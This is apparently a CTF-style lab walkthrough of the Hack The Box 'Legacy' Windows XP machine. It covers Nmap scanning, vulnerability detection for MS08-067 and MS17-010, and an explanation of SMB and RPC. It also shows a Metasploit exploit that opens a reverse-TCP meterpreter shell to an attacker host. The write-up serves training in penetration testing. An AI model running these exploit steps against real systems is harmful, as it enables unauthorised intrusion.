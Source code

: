 ```yaml
---
title: 'Legacy Walkthrough: Exploiting vulnerable Server Service'
date: 2024-10-18 12:00:00 +0530
categories:
- Capture the Flags
- Windows
tags:
- HTB
- smb
- standalone
description: Walkthrough of HTB's Legacy machine
---
```

*Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.*

## Recon

I started with a standard Nmap scan to discover open ports:
```bash
sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.10.4 --max-retries 0 
SYN Stealth Scan Timing: About 15.49% done; ETC: 04:22 (0:00:33 remaining)
Nmap scan report for 10.10.10.4
Host is up (0.072s latency).
Not shown: 61228 closed tcp ports (reset), 4304 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```
### Nmap Flags:
- **`-sS`**: Performs a SYN scan (stealth scan).
- **`-n`**: Disables DNS resolution to speed up scanning.
- **`--disable-arp-ping`**: Skips ARP ping.
- **`-p`**: Scans all of the ports.
- **`-A`**: Agressive Scan, which performs OS Detection, Version detection, Default script scanning

### key Observations

- Port 139/445: SMB service (Windows shares).

To further identify the SMB version running and possibly determine the OS, I ran a targeted Nmap Aggressive scan:

```bash
sudo nmap -A -n -Pn --disable-arp-ping --stats-every=5s -p 139,445 10.10.10.4 --max-retries 0
PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows XP SP2 or SP3 (96%), Microsoft Windows XP SP3 (96%), Microsoft Windows Server 2003 SP1 or SP2 (94%), Microsoft Windows Server 2003 SP2 (94%), Microsoft Windows Server 2003 SP1 (94%), Microsoft Windows 2003 SP2 (93%), Microsoft Windows XP Professional SP2 or Windows Server 2003 (93%), Microsoft Windows 2000 SP3/SP4 or Windows XP SP1/SP2 (93%), Microsoft Windows XP SP2 or SP3, or Windows Embedded Standard 2009 (93%), Microsoft Windows XP SP2 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-10-23T08:15:17+03:00
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:b2:02 (VMware)
|_clock-skew: mean: 5d00h15m42s, deviation: 2h07m16s, median: 4d22h45m42s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
The findings strongly suggest that this machine is running Windows XP SP2/SP3

To Identify the SMB version and possible vulnerabilities for the smb

```bash
sudo nmap --script=vuln -p 139,445 10.10.10.4 -n -Pn                                         
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-18 01:00 EDT
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.4
Host is up (0.081s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

```

It looks like the SMB is vulnerable to EternalBlue and NETAPI exploit.

---
### Background

If SMB is enabled on a machine, the Server Service (also know as LanmanServer) will listen for incoming SMB Conncetions on ports 139 and 445. The server service is responsible for handling requests that come in over these ports.

SMB also provides a communication channel for RPC (Remote Procedure Call). The Server service listens for RPC requests over the same ports (139/445) and forwards those requests to the appropriate service, like SAM (Security Account Manager) or LSA (Local Security Authority), using named pipes (e.g., \pipe\samr for SAM-related operations).

**SMB** = Pipeline/Channel: SMB establishes the communication channel between the client and server. It handles connection setup, session management, and access control.

**RPC** = Payload/Message: RPC encapsulates the commands or operations that need to be executed remotely. The client sends RPC calls to the server over the SMB connection, and the server sends back the RPC responses through the same SMB connection.

- In the case of CVE-2008-4250 (MS08-067), the attacker sends a specially crafted RPC request over SMB (usually on port 445).
- The Server service, which is listening on port 445, processes the incoming RPC request.
- The vulnerability in the Server service's RPC handling code is exploited by the malicious RPC request, causing a buffer overflow, allowing the attacker to execute arbitrary code with SYSTEM privileges.



---

### Exploiting through MetaSploit
As we are aware of that the machine is vulnerable to MS08-067, searching for any available exploits using search in the msfconsole
![msfconsole]({ '/assets/img/Legacy/msf_search.png' | relative_url })
Using the same exploit to pwn the machine

```bash
msf6 > use exploit/windows/smb/ms08_067_netapi
[*] Using configured payload windows/meterpreter/reverse_tcp
```

Configuring the target IP and leaving the OS flavour to metasploit to figure out

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.16.10
LHOST => 10.10.16.10
```

Running the exploit to get SYSTEM privileges, as we are exploiting the system service
```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.16.10:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176198 bytes) to 10.10.10.4
[*] Meterpreter session 2 opened (10.10.16.10:4444 -> 10.10.10.4:1033) at 2024-10-17 23:24:45 -0400

meterpreter >
```


## Disclaimer:

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*

## References

[MS08_067_Walkthrough](https://github.com/cjjduck/ms08_067_walkthrough)

[Exploit](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/)

